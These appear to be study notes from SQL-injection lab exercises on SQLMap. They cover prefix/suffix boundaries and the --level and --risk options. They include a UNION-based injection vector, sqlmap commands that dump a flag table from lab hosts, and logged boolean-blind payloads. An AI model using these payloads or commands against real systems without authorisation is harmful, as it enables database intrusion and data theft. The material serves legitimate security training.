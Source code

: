 The vector `UNION ALL SELECT 1,2,VERSION()`, bounded with the prefix `%'))` and the suffix `-- -`, will result in the following (valid) SQL statement at the target:
```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

Examples of queries (by Academy exercises):

`sqlmap -u 'http://142.93.35.92:31657/case6.php?col=id' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Cache-Control: max-age=0' -p col --prefix="%60+%3D+1" --suffix="+--+-" -v 3 --dbms MySQL`

    In SQLMap, when I want to use the ` accent on --prefix or other parameters, it must be among single quotes and not among double quotes. When I encode the ` as %60, I don't know if it can interpret it as `.

``sqlmap -u 'http://188.166.173.208:32371/case6.php?col=id' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://188.166.173.208:32371/case6.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Cache-Control: max-age=0' -p col --level 5 --risk 3 -v 3 --dbms MariaDB --prefix='` = 1' -D testdb -T flag6 -C content --dump``

    So, --prefix='` = 1'. I noted it works also with --prefix='%60 = 1' because the query in the php file of the exercise should be like: SELECT * FROM `users` WHERE `col = $id...., so "id" is given already in the URL, and then I close it by ` and I put the condition that id must be = 1.

### Level/Risk

By default, SQLMap combines a predefined set of most common boundaries (i.e., prefix/suffix pairs), along with the vectors having a high chance of success in case of a vulnerable target. Nevertheless, there is a possibility for users to use bigger sets of boundaries and vectors, already incorporated into the SQLMap.

For such demands, the options `--level` and `--risk` should be used:
* The option `--level` (1-5, default 1) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
* The option `--risk` (1-3, default 1) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

The best way to check for differences between used boundaries and payloads for different values of `--level` and `--risk`, is the usage of -v option to set the verbosity level. In verbosity 3 or higher (e.g. `-v 3`), messages containing the used [PAYLOAD] will be displayed, as follows:

`sqlmap -u www.example.com/?id=1 -v 3 --level=5`

    ...SNIP...
    [14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
    [14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
    ...SNIP...
    [14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
    [14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
    [14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
    ...SNIP...
    [14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
    [14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
    [14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
    ...SNIP...
    [14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
    [14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
    [14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
